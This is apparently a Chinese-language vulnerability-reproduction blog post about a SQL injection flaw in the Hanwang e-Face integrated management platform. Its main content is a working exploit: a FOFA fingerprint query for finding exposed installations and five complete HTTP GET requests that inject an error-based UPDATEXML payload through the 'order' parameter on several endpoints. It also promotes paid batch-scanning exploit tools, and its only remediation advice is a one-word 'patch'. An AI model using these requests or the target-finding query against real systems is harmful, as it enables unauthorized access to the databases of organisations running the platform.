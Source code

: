 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247488693&idx=1&sn=b67691800d32ebf2dc55f5bc0558137e

#  汉王e脸通综合管理平台存在SQL注入漏洞 附POC  
2025-7-16更新  南风漏洞复现文库   2025-07-16 15:55  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 汉王e脸通综合管理平台简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
汉王e脸通综合管理平台  
## 2.漏洞描述  
  
汉王e脸通综合管理平台存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
汉王e脸通综合管理平台  
  
![汉王e脸通综合管理平台存在SQL注入漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6BfAf5BmXdBzbxQeEPBxOzUWmR62WyNt76YOzuVbViazXZgoj8DhajmA/640?wx_fmt=png&from=appmsg "null")  
  
汉王e脸通综合管理平台存在SQL注入漏洞  
## 4.fofa查询语句  
  
icon_hash="1380907357"  
## 5.漏洞复现  
  
漏洞数据包：  

```
GET /manage/authMultiplePeople/queryManyPeopleGroupList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*
```


```
GET /manage/authMultiplePeople/getGroupEmployee.do?recoToken=67mds2pxXQb&page=1&pageSize=10&groupId=1&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*
```


```
GET /manage/firstPeopleOpen/getDoors.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*
```


```
GET /manage/antisubmarine/queryAntisubmarineList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*
```


```
GET /manage/authMultiplePeople/getValidEmpForGroup.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,md5(123456),0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6JMWRmxcZibOl3Fib4fXHjgLEM1m2s1mhCnGeu3nQtYCibpvH4axYBpK6g/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO61AV3ROuVPXswd9dZ0Ir4IDl6fcTdXfuWRY5GcmdyF2oicEoUJc6omxg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6JbiayrW9Xmmle1YE10XEmYB1veqELmqJEzsMztLiaNFgIXUE6vXTofCg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6ea7CTUabmAMKh8lA05tQQRpsAA1vb5xOoiarLkyPiabMzciaWNQWgyNQQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO61yF2HfkGPwINg6zicNia4aGmd8IsfjBp5cqibkd80omIqTtTGa2icYV4rQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsswxyIViaburjUR3dB2AO6lSMvQEleN4fKurBKTsbGbvibEmKGRdM1VMwfCBFEicT9pYFQXPTkv82A/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
   
  
  
  

